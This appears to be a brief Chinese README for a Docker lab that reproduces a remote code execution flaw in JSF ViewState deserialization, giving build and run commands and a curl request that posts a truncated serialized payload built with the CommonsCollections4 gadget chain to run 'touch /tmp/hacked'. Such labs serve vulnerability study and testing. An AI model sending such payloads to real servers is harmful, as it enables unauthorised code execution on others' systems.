


环境搭建
```
docker build -t jsf-viewstate-default-rce .
docker run -d -p 9090:8080 jsf-viewstate-default-rce
```


漏洞复现
```
// 容器内执行命令
docker exec -it <container> ls /tmp/

// 参数: CommonsCollections4 "touch /tmp/hacked"
curl -X POST "http://127.0.0.1:9090/jsf/calc.xhtml" -d "javax.faces.ViewState=H4sIAAAAAAAAA..."
```




